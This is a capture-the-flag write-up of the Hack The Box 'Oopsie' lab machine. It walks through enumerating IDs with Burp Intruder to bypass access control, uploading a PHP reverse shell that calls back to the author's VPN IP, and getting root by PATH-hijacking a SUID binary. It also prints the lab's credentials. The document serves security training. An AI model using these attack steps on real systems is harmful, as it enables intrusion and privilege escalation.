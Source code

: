 # Oopsie

![Oopsie](../Images/htb_oopsie_1.png)

**Tools: nmap, Burp Suite, gobuster, netcat.**

First of all, we can run a nmap scan — this machine’s IP is 10.10.10.28:  
`nmap -n -sSV -sC -Pn 10.10.10.28`

![Oopsie](../Images/htb_oopsie_2.png)

We can see that the ports 22 (ssh) and 80 (http) are open. Let’s investigate the http service, so we open Firefox and go to http://10.10.10.28:80

![Oopsie](../Images/htb_oopsie_3.png)

The website above doesn’t take us anywhere when we click in the options, so we should investigate it further using Burp Suite as our proxy.  
 We simply open Burp Suite and make sure that the ‘Intercept’ option under the ‘Proxy’ tab is set to ‘On’.  
  Now we go to the Firefox ‘Network settings’, and enable ‘Manual Proxy’, set it to 127.0.0.1, port 8080 and check the option below it (‘Also use this proxy for FTP and HTTPS’).  
 Next up, we refresh the website and check Burp, tab ‘Site map’ under ‘Target’.  
 (From now on, every time we refresh/change pages in our browser, we’ll need to click on the ‘Forward’ button at the ‘Intercept’ tab under ‘Proxy’.)

![Oopsie](../Images/htb_oopsie_4.png)

We see this ‘cdn-cgi’ directory, and under it there’s a ‘login’ directory. Upon accessing it (http://10.10.10.28/cdn-cgi/login/) we see a login form.

![Oopsie](../Images/htb_oopsie_5.png)

So, remember the previous box, Archetype? We should try some of those credentials. The ‘administrator’ username doesn’t work, but if we try ‘admin’ and the password ‘MEGACORP_4dm1n!!’ we successfully access the website’s administration section.

![Oopsie](../Images/htb_oopsie_6.png)

After taking a look around, we see that the ‘Uploads’ section can only be accessed by a ‘super admin’.

![Oopsie](../Images/htb_oopsie_7.png)

So, back to Burp. If we access the ‘Account’ tab in the website, we’ll see a request at the ‘Intercept’ tab in Burp, and some curious information.

![Oopsie](../Images/htb_oopsie_8.png)

Apparently, each user has an account ID and an User ID associated. We could try to manipulate this, to find out the IDs of the ‘super admin’ user. To do that on Burp, click on Ctrl+i to transfer this request information to the ‘Intruder’ tab. Under ‘Intruder’, go to the ‘Positions’ tab and click on the ‘Clear’ button on the far right, select the ‘1’ after the ID (first row of the request) and click on the ‘Add’ button. This way we’ll run a loop on this ID field, so we can test the responses and find the super admin. Now go to the ‘Payloads’ tab. I recommend creating a file with a list of IDs, from 1 to 100 — run this command in your terminal, and after that click on ‘Load…’ under ‘Payload Options’ and select the file you’ve just created.  
`for x in $(seq 1 100);do echo $x;done > ids.txt`

![Oopsie](../Images/htb_oopsie_9.png)

Next up, go to the ‘Options’ tab, and at the bottom of the page under ‘Redirections’, select ‘Always’ to Follow redirections, and check the ‘Process cookies in redirections’ box.

![Oopsie](../Images/htb_oopsie_10.png)

Now we just need to go back to the ‘Target’ tab and click on ‘Start Attack’. Another window will be open and the results will start to show up. If we order the results by ‘Length’, we notice that there are a few results with different lengths, and the request number 30 is on the top of the list.

![Oopsie](../Images/htb_oopsie_11.png)

If we select the request 30 and click on ‘Response’ under the list of requests, we can inspect the code. By the end of the response, we’ll be able to see the following information:

![Oopsie](../Images/htb_oopsie_12.png)

So that’s it, the ‘super admin’ ID is 86575, and from now on, everytime we need to Forward a request in Burp, before doing so, we need to change the ID after ‘user=’ to this one we’ve just found.

![Oopsie](../Images/htb_oopsie_13.png)

Now we can use this ID to access the ‘Uploads’ on the website. Upon doing so, we see a file upload form.

![Oopsie](../Images/htb_oopsie_14.png)

I’ve downloaded and extracted a php reverse shell from [pentestmonkey.net](http://pentestmonkey.net/tools/web-shells/php-reverse-shell), edited the file php-reverse-shell.php and changed the IP field to my HTB VPN IP (10.10.15.54) and the port to a random one (10666). Now we just need to upload the file, remembering to change the ‘user=’ to 86575 every time we need to forward a request.

![Oopsie](../Images/htb_oopsie_15.png)

To find out where the uploaded files go, I ran a quick gobuster:  
`gobuster dir -u http://10.10.10.28 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

![Oopsie](../Images/htb_oopsie_16.png)

The files are probably at /uploads then…let’s set our netcat listening session in the terminal and try to access the reverse shell file from the browser, changing the ‘user’ as always to 86575:  

**Terminal:**  
`nc -vnlp 10666`

**Browser:**  
`http://10.10.10.28/uploads/php-reverse-shell.php`

![Oopsie](../Images/htb_oopsie_17.png)

We have a shell, but it’s a simple (dumb) shell. To upgrade it to a fully interactive shell, I quickly checked if the box had python installed. ‘python -V’ returned an error, but ‘python3 -V’ returned the Python3 version. With that in mind, I’ve used the command below to quickly upgrade my shell:  
`python3 -c ‘import pty; pty.spawn(“/bin/bash”)’`

The official walkthrough suggest the commands below, I’m posting it here as an option:  
```
SHELL=/bin/bash script -q /dev/null  
Ctrl-Z  
stty raw -echo  
fg  
reset  
xterm  
```

Upon checking it, we see that we’re logged in as www-data, so we can take a look into some folders, and eventually find the user.txt file containing the User flag, under /home/robert/

![Oopsie](../Images/htb_oopsie_18.png)

But besides that, we’re pretty stuck with this user. We should check the website’s folders at /var/www/html. After spending some time, we find the folder /cdn-cgi/login/ that contains some interesting files.

![Oopsie](../Images/htb_oopsie_19.png)

Quickly checking them reveals that the ‘db.php’ file has another user’s credentials saved.

![Oopsie](../Images/htb_oopsie_20.png)

So let’s access Robert’s user, providing the password found.  
`su robert`

![Oopsie](../Images/htb_oopsie_21.png)

Upon checking its id, we see that this user is part of a ‘bugtrack’ group. We should check what files this group has access to:  
`find / -type f -group bugtracker 2> /dev/null`

![Oopsie](../Images/htb_oopsie_22.png)

So we find the binary file ‘bugtracker’. Right away we notice that it has SUID permissions (the ‘s’ in the user ‘execute’ field, it runs ‘as’ its creator, in this case, root), we can run it to test. When it asks us for an ID, we can insert a random number just to see what it does.

![Oopsie](../Images/htb_oopsie_23.png)

There’s not much info in here, so a good option is to see what the binary does when you run it. We do so by checking its strings:  
`strings /usr/bin/bugtracker`

There’s the ‘cat /root/reports’ row that grabs our attention right away. We could abuse this to escalate our privileges. The official walkthrough explains this very well:  

“We see that it calls the cat binary using this relative path instead of the absolute path. By creating a malicious cat , and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root. Let’s add the current working directory to PATH, create the malicious binary and make it executable.”  
```
export PATH=/tmp:$PATH  
cd /tmp/  
echo ‘/bin/sh’ > cat  
chmod +x cat
```

And then we run the binary once again…

![Oopsie](../Images/htb_oopsie_24.png)

So now we’re root!  
At this point, I couldn’t read any files anymore in that shell, so I simply ran a ‘vim /root/root.txt’ and grabbed the root flag from inside the file.  

Through further enumeration of the box, we can find FTP credentials that can be useful in the next boxes of the Starting Point path:  
```
/root/.config/FileZilla  
ftpuser  
mc@F1l3ZilL4
```

![Oopsie](../Images/htb_oopsie_25.png)
